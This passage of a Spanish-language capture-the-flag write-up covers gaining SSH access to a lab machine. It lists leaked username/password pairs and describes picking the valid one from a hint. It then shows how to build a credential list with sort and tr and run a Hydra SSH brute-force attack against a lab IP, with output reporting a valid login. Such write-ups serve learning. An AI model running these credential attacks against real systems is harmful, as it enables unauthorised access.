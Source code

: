 ~~~
nhvjguy/kjhgyut
jaime11/JKiufg6
theuser/thepass
jaime11/JKiufg6
jaime11/JKiufg6
jaime11/JKiufg6
jaime11/JKiufg6
jaime11/JKiufg6
jaime11/JKiufg6
~~~

En este punto, no me quería complicar y como tampoco había tantas posibilidades, confiaba ciegamente en que la pista que nos daban era CLARA. Nos habla de "ella", y en ese listado aparentemente solo veo un nombre de mujer, "maria11". Decido probar con esa combinación y... no es correcta 😂. 

En este punto, me pregunto y si es que el autor (como ya es habitual) nos está troleando un poco y la combinación es "theuser/thepass" (que también figura en el listado). Pruebo... y ahora sí. ¡Estamos dentro!


### Fuerza bruta (extra, no me hizo falta)

> Podríamos continuar con la máquina, pero ahora que hago el write-up, me gustaría explicar cómo lo haríamos en el caso de que esa combinación no fuese correcta y tuviéramos muchas posibilidades y fuese inviable comprobarlas una a una. 

En primer lugar sacamos las opciones repetidas y sustituimos la "/" por ":" para tener el formato que necesita Hydra para funcionar:

~~~bash
❯ sort -u curl.txt | tr "/" ":" | tee listado.txt
hidden1:passZZ!
jaime11:JKiufg6
jhfbvgt:iugbnvh
john765:FDrhguy
maria11:jhfgyRf
mmnnbbv:iughtyr
nhvjguy:kjhgyut
smileys:98GHbjh
theuser:thepass
yuijhse:hjupnkk
~~~

Ahora solo nos queda correr Hydra:

~~~bash
❯ hydra -C listado.txt $ip ssh -F
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-11-25 18:54:39
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 10 tasks per 1 server, overall 10 tasks, 10 login tries, ~1 try per task
[DATA] attacking ssh://192.168.0.22:22/
[22][ssh] host: 192.168.0.22   login: theuser   password: thepass
[STATUS] attack finished for 192.168.0.22 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-11-25 18:54:40
~~~
